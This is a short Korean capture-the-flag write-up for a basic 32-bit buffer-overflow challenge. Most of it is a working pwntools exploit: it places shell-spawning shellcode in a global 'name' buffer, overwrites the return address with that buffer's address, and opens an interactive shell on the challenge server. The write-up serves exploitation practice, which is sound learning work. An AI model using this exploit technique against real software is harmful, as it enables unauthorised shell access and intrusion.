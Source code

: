 # 내 버퍼가 흘러넘친다!!!

기본적인 BOF 문제이다.   
name 변수에 shellcode를 넣어주고 return address를 name 변수의 주소로 덮어씌우면 된다.   
<br/>

```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3003)

name = 0x804a060

context.arch = 'i386'
shellcode = shellcraft.sh()
shellcode = asm(shellcode)

payload = ''
payload += '\x90'*0x14
payload += '\x90'*4
payload += p32(name)

p.sendlineafter('Name : ', shellcode)
p.sendlineafter('input : ', payload)

p.interactive()
```
